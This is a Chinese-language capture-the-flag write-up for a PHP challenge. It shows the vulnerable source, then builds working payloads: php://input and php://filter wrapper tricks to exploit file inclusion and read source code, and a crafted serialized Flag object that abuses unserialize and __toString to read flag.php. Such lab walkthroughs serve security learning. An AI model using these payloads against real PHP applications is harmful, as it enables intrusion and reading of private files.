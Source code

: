 # 考察知识点：

# 1.php伪协议（php://input,php:///filter)

# 2.序列化 toString



# 1.打开网站发现源代码

```javascript
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```



# 2. 查看源代码需要使$text的内容为"welcome to the zjctf”，并且是使用file_get_contents()的方式，不能直接text="welcome to the zjctf"

此时需要采取php://input伪协议



构造：

```javascript
?text=php://input

post:
    welcome to the zjctf
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/0D83B2A12DF4404F8F6E6039D79CF31Bclipboard.png)



此时已经绕过第一个限制



# 3. 提示存在useless.php文件，并且该文件才include前并没有进行任何限制，很显然存在文件包含漏洞，使用php://filter伪协议即可读取源代码



构造：

```javascript
?text=php://input&file=php://filter/convert.base64-encode/resource=useless.php

post:
    welcome to the zjctf
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/29F78769B3B1474CB589AFEC56E0A841clipboard.png)



# 4.读取到useless.php文件原代码的base64编码，解码即可得到源代码

```javascript
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```



# 5. 根据index.php的unserialize和uselexx.php的toString方法判断存在序列化漏洞

，只要使useless.php文件中的file=flag.php即可得到flag.php文件的你内容

构造序列化数据exp:

```javascript
<?php

class Flag{  //flag.php
    public $file="flag.php";
}

$file=new Flag();
echo serialize($file);
?>

输出：
O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```



# 6.访问即可得到flag

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/1049E4E096DE42FE949FDEF773CADA57clipboard.png)





